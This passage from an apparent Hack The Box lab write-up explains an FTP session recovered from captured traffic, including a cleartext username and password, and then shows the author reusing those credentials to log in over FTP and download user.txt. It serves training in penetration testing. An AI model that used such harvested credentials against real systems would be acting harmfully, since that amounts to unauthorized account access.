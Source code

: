 - The client provides the username `nathan` and the password `Buck3tH4TF0RM3!`.
- The server accepts the credentials and logs the user in successfully.

```bash
SYST
215 UNIX Type: L8
```

- The `SYST` command requests system information.
- The server responds with `215 UNIX Type: L8`, indicating it is a UNIX-based system.

```bash
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
```

- The client uses the `PORT` command to specify its IP (`192.168.196.1`) and port (`212,140`) for data transfer.
- The server confirms the active mode setup.

```perl
LIST
150 Here comes the directory listing.
226 Directory send OK.
```

- The `LIST` command requests a listing of files in the current directory.
- The server successfully sends the directory listing.

```bash
TYPE I
200 Switching to Binary mode.
RETR notes.txt 
550 Failed to open file.
```

- The client switches to binary mode (`TYPE I`) to handle file transfers for non-text files.
- The `RETR` command tries to retrieve `notes.txt`.
- The server responds with `550 Failed to open file`, indicating that the file either does not exist or access is denied.

Based on the analyze, let's try the found credential on ftp, and ssh services.

### Try the found credential on ftp

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45791|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Dec 19 08:51 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||58797|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*******************************|    33      383.64 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.24 KiB/s)
```
